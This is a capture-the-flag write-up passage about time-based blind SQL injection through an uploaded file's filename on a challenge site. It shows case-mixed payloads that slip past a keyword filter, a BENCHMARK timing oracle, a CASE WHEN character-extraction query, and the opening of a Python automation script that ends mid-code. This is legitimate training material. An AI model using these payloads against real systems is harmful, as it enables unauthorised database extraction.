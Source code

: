 i tried to use querys like

```
------geckoformboundarybdbbbcfdab28124d8e8805dfdeec32ac
Content-Disposition: form-data; name="file"; filename="Select Sleep(1)--.png"
Content-Type: application/octet-stream
```

But the server returned an **empty response**, which indicated that something was wrong — maybe a filter is begin used? 🤷‍♂️
![](burp1.png)

So I started playing around with the queries a little bit, and it turned out that if a request contained a **filtered keyword**, the server would simply respond with **nothing at all** and if the query is invalid it will return **uploaded** with no body .

```
------geckoformboundarybdbbbcfdab28124d8e8805dfdeec32ac
Content-Disposition: form-data; name="file"; filename="SeLect BENCHMArK(10000000,md5(1))-- -.png"
Content-Type: application/octet-stream
```

![](burp2.png)
this one returned a longer response time which indicated that the query was valid.

### the oracle

now it's time to enumerate the data base tables and columns but first let's get the current database that we are in after playing around with the payload to work i finally manged to get it right.

```
------geckoformboundarybdbbbcfdab28124d8e8805dfdeec32ac
Content-Disposition: form-data; name="file"; filename="Select CaSE WHEN MID(DATABASE(),1,1)='b' THEN BENCHMArK(10000000,MD5(1)) ELSE 0 END-- -.png
```

![](burp3.png)

now let's automate this process to get the fullname of the database, with the help my friends chat and grok they helped me to build a multithreading script to automate this

```py

import aiohttp
import asyncio
import urllib3
import sys
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

URL = "https://blind-trust.ascwg-challs.app/challenge.php?page=profile"
COOKIE = {
    "PHPSESSID": "cookie"
}
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

BOUNDARY = "----geckoformboundarybf8c245aafa74d7059582a26d17cb513"
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
```